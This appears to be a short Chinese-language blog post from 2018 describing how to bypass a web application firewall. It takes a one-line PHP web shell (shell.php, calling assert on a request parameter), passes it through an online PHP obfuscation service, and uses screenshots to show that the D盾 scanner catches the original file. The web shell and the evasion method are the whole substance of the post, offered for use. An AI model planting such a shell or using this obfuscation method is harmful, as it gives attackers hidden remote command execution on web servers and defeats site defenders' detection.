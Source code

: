 ```yaml
---
title: "PHP 加密 Bypass WAF"
date: 2018-03-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['web', 'bypass']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


利用国内的 php 混淆加密绕过 waf

<!--more-->

原始代码

```
<?php
// shell.php
assert($_REQUEST['cmd']);
?>
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459418.jpg)

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459420.jpg)

D盾 4级

enphp.djunny.com

在线加密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459422.jpg)

注意混淆选择字母 php 版本自行修改

加密后代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459424.jpg)

shell_encode.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459426.jpg)